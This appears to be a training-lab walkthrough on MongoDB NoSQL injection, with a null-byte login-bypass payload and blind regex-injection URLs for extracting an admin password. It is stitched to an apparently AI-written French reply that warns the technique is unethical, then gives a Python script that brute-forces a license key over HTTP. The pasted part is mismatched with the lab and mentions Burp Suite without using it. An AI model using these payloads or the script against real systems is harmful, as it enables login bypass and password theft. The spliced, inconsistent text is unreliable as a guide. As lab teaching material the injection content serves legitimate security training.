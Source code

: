 # MongoDB

**INJECTION WITH A NULL BYTE**

This example is the MongoDB version of the (in)famous ' or 1=1 --.

If you remember what you saw previously, you know that you will need two things to bypass this login:

* `An always true condition.`
* `A way to correctly terminate the NoSQL query.`

First, by reading MongoDB documentation you can find that the SQL or 1=1 translates to || 1==1 (note the double =).

Then by poking around, you can see that a NULL BYTE will prevent MongoDB from using the rest of the query.

In some cases, you can also use the comments // or \<!-- to comment out the end of the query.

`?username=admin'||'1==1'%00&password=test`

In this example, we will try to retrieve more information from the NoSQL database.

Using a bit of guess work (or previous knowledge of the application), we can deduce that there is probably a password field.

We can play around to confirm that suspicion:

```
if we access [/?search=admin'%20%26%26%20this.password.match(/.\\*/)%00](): we can see a result.
if we access [/?search=admin'%20%26%26%20this.password.match(/zzzzz/)%00](): we cannot see a result.
if we access [/?search=admin'%20%26%26%20this.passwordzz.match(/.\\*/)%00](): we get an error message (since the field passwordzz does not exist).
```

Now, we have a way to perform a blind injection since we have two states:

```
No result when the regular expression does not match something: false state.
One result when the regular expression matches something: true state.
```

Using this knowledge, we can script the exploitation to retrieve the admin password.

We will first ensure that the matching is done correctly by using: ^ and $ to make sure we do not match characters in the middle of the string (otherwise iterating will be far harder).

The algorithm looks like:

```
test if password match /^a._$/ if it matches test without the wildcard ._(to check if it's the full password). Then move to the next letter if it does not match.
test if password match /^b._$/ if it matches test without the wildcard ._. Then move to the next letter if it does not match.
```

For example, if the password is aab, the following test will be performed:

```
/^a.\\*$/ that will return true.
/^a$/ that will return false.
/^aa.\\*$/ that will return true.
/^aa$/ that will return false.
/^aaa.\\*$/ that will return false.
/^aab.\\*$/ that will return true.
/^aab$/ that will return true. The password has been found.
```

With these details, you should be able to retrieve the password for the user admin. The password is the key to solve this exercises, so it should have the following format:XXXXXXXX-XXXX-XXXX-XXXX-XXXXXXXXXXXX, where X can be \[0-9a-f].\
In case the password field does not exist for some records (since it's a NoSQL database), it's always a good idea to ensure its presence by using ... && this.password && this.password.match(... instead of just using ... && this.password.match(....

admin' %26%26 this.password.match(/.\\$\*/)%00

Je comprends maintenant que vous voulez de l'aide pour un exercice de formation sur pentesterlab. Je suis désolé pour la confusion. Il est important de noter que l'utilisation d'une technique d'essais et erreurs pour trouver des informations sensibles comme une clé de licence n'est pas considérée comme une pratique éthique et n'est pas recommandée dans la vie réelle.

Voici un exemple de script en Python qui pourrait être utilisé pour tester tous les caractères possibles pour la clé de licence en utilisant Burp Suite:

```
Copy codeimport requests

# Define the target URL and the parameter name
url = "http://example.com/check_license.php"
param = "license_key"

# Define the possible characters for the key
charset = "0123456789abcdef"

# Start with an empty key
key = ""

# Try adding one character at a time to the key and checking the response
while True:
    for c in charset:
        payload = key + c
        data = {param: payload}
        r = requests.post(url, data=data)
        
        # Check the response for a match
        if "valid key" in r.text:
            key += c
            print("Found character: " + c)
            break
    else:
        # If no match is found, the key is complete
        break

print("Found key: " + key)
```
